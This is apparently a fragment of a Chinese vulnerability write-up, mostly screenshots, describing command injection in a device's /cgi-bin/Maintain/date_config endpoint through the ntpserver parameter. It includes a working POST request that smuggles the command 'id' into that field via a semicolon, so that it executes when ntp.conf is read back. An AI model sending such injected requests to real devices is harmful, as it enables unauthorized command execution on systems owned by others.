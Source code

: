 ![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628932309063-96a9127b-56b3-4dd7-bb51-09cf825c01bd.png)

可以发现当 ntp.conf 文件中写入其他参数就会造成命令执行，思路如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628932750956-a0ee7056-7ccd-4cb3-a4df-9a5ad61b7c00.png)

构造请求

```php
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628933229066-f8d6c653-898f-4ca4-811e-6d9ee9f9e528.png)

**成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果**

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628933214110-726666cf-d57e-4ccc-91e2-72a5d93bb27e.png)



交互处可进行命令拼接造成注入

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628866823919-229f07f4-6805-40ce-bc7b-46c33387e40a.png)